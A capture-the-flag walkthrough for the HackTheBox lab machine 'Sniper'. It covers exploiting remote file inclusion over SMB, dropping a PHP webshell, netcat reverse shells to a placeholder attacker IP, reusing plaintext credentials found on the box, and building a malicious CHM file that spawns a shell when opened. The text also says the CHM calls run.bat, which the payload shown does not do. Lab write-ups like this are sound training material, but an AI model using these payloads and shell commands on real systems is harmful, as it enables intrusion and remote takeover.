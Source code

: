 ```yaml
---
title: "HTB: Sniper"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Sniper](https://miro.medium.com/max/3614/1*VtTxWloeoQG79y4TBpNfcA.jpeg)

# Sniper

[[toc]]

## Initial Foothold

http://sniper.htb/blog/?lang=\\xx.xx.xx.xx\share\test.php is vulnerable to RFI over SMB.

We can set up a SMB server to exploit the RFI here:

Add to the bottom of /etc/samba/smb.conf:

```
[share]
path = /home/xxxx/share
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

Then, chmod the directory:

```
chmod 0555 /home/xxxx/share
```

We can use the webshell found at the following github:

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

Now, by visiting http://sniper.htb/blog/?lang=\xx.xx.xx.xx\share\webshell.php we are able to upload file and execute commands!

The first thing we need to do is create a new folder _C:\TEMP_ and upload nc.exe to it.

From here, we are able to run the command:

```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have a shell!

## Pivoting to User

While enumerating, we stumble upon some credentials held in C:\inetpub\wwwroot\user\db.php:

**chris:36mEAhz/B8xQ~2VM**

We can use a switch-shell with Powershell to get a semi-interactive shell:

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "sniper\chris" ; $pw = "36mEAhz/B8xQ~2VM" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```

We can now run nc.exe since this shell can execute commands. However, we need to first grant this user permissions to access it using our webshell:
```
cacls C:\TEMP /e /p chris:f
cacls C:\TEMP\nc.exe /e /p chris:f
```
Now, we can run nc.exe and receive a shell:
```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have user!

## Getting Root

We've got a note in C:/Docs that's semi helpful:

```
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
Based on the note, it looks like whatever we drop in C:/Docs might be looked at by the administrator.

Also, in C:\Users\chris\Downloads, there's a file called instructions.chm.

A publically available exploit for chm files is available:

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7

## Exploiting the CHM for Profit

We first need to unpack the chm file:

```
copy C:\Users\chris\Downloads\instructions.chm C:\TEMP
cd C:\TEMP
hh -decompile extract instructions.chm
cd extract
nc -nv xx.xx.xx.xx 4444 < a.html
```

Now, once we catch this on our machine, we can see what's in the HTML file:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

We can modify the PoC and place it in the body of our file. The end results is:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",nc,-nv xx.xx.xx.xx 4444">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

Now, because we've asked it to call run.bat in our TEMP folder, we need to create a batch script for it to run:

```
echo C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe > C:\TEMP\run.bat
```

From here, we need to create a Project.hpp file to point hh.exe at when we recompile the chm file:

```
[FILES]
<PATH TO FILES>\a.html
```

Now, we copy the Project.hpp file and a.html to a windows machine and run:

```
hhc.exe <PATH TO FILES>\Project.hpp
```

We're given a Project.chm file in the same folder that held Project.hpp. We can copy this over to the victim machine, place it in C:\Docs and wait for it to return a shell to us!

```
C:\>whoami
whoami
sniper\administrator
```

